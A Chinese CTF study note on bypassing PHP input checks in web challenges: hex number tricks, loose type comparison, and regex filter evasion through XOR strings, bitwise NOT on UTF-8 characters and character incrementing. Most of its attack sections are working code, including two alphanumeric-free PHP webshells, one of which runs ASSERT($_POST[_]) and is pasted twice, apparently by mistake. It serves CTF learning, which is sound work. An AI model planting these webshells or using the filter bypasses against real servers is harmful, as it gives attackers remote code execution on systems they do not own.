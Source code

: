 ```yaml
---
title: CTF——Web安全中的一些绕过
date: {{ date }}
top: false
cover: false
password:
toc: true
mathjax: true
summary:
tags: CTF
categories: CTF

---
```




# CTF——Web安全中的一些绕过

- Learning from [淚笑](https://www.cnblogs.com/leixiao-/)、[Angel_Kitty](https://www.cnblogs.com/ECJTUACM-873284962/)、[离别歌](https://www.leavesongs.com/)



## 利用数的十六进制

```php
function check($number)
{
    $one = ord('1');
    $nine = ord('9');
    for ($i = 0; $i < strlen($number); $i++)
    {
        $digit = ord($number{$i});
        if ( ($digit >= $one) && ($digit <= $nine) )
        {
            return false;
        }
    }
    return $number == '11259375';
}
```



用11259375的16进制形式0xabcdef



## 弱类型比较

```php
$num=$_GET['num'];
if(!is_numeric($num))
 {
     echo $num;
     if($num==1)
         echo 'flag{**********}';
 }
```



不能用16进制形式0x1或前面加0形式0001或者科学计数法形式0e0，因为都会被判断为数字。但可以提交1xxx,后面跟上除了数字，点（两个点可以：1..）以外任意字符即可，php用==比较字符串和数字时，会把字符串隐式转换为数字，如果字符串中有非数字字符，只取最前面的数字，例如"1x"=1,"22asd"=22,"qwe123"=0



## 正则匹配绕过

### 方法一：异或

```php
<?php

function getFlag()
{
    echo "flagxxxxxxx";
}

if(isset($_GET['code']))
{
    $code = $_GET['code'];

    if(strlen($code)>40)
    {
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code))
    {
        die("NO.");
    }

    @eval($code);
}
//$hint =  "php function getFlag() to get flag";
?>
```

> ?code=$_="<%)},?'"^"[@];@^@";$_();  



两句php代码，第一句 $\_=" <%)},?' " ^ " [@];@^@ "; 是把两个字符串异或运算结果赋给$\_变量，" <%)},?' " 这个含7个字符的字符串和 " [@];@^@ " 异或的结果就是getFlag，然后第二句php代码 $_(); 就相当于getFlag();若是过滤了下划线，则 ${" } " ^ " ; "} = " <%)},?' " ^ " [@];@^@ ";  ${" } " ^ " ; "}();



### --方法二：取反

“如何编写一个不使用数字和字母的webshell”，具体为如下代码：

```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
```



利用UTF-8编码的某个汉字，并将其中某个字符取出来，比如`'和'{2}`的结果是`"\x8c"`，其取反即为字母`s`

![14872686600768.jpg](https://gitee.com/h1ler/tuci/raw/master/null/fadccb70-4143-49df-aa47-bc9a1af93c56.97e405012da5.jpg)



利用这个特性生成如下答案：

```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
```

![14871906748025.jpg](https://gitee.com/h1ler/tuci/raw/master/null/82b376a7-08a8-4e20-9686-553f400d280d.d8b4b6b1530c.jpg)

这个答案还利用了PHP的弱类型特性。因为要获取`'和'{2}`，就必须有数字2。而PHP由于弱类型这个特性，true的值为1，故`true+true==2`，也就是`('>'>'<')+('>'>'<')==2`。



### --方法三：字符变量自增

题目源代码在方法二中

[源自官方文档]: http://php.net/manual/zh/language.operators.increment.php

![image-20201021010048673](https://gitee.com/h1ler/tuci/raw/master/null/image-20201021010048673.png)

也就是说，`'a'++ => 'b'`，`'b'++ => 'c'`... 

所以，只要能拿到一个变量，其值为`a`，通过自增操作即可获得a-z中所有字符。

那么，如何拿到一个值为字符串'a'的变量呢？

巧了，数组（Array）的第一个字母就是大写A，而且第4个字母是小写a。也就是说，可以同时拿到小写和大写A，等于就可以拿到a-z和A-Z的所有字母。

在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为`Array`：

![14872697183159.jpg](https://www.leavesongs.com/media/attachment/2017/02/17/4d0c6bc9-5417-41b2-91ca-4e110e8d1350.72f524026162.jpg)

再取这个字符串的第一个字母，就可以获得'A'了。

利用这个技巧，编写如下webshell（因为PHP函数是大小写不敏感的，所以最终执行的是`ASSERT($_POST[_])`，无需获取小写a）：

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

执行结果：

![14872701052595.jpg](https://gitee.com/h1ler/tuci/raw/master/null/d92e3d40-a451-4fc4-a516-e0747b721c69.2b122097850e.jpg)



> 详见：
>
> https://www.leavesongs.com/penetration/webshell-without-alphanum.html 
>
> https://www.cnblogs.com/ECJTUACM-873284962/p/9433641.html



## 待续。。。

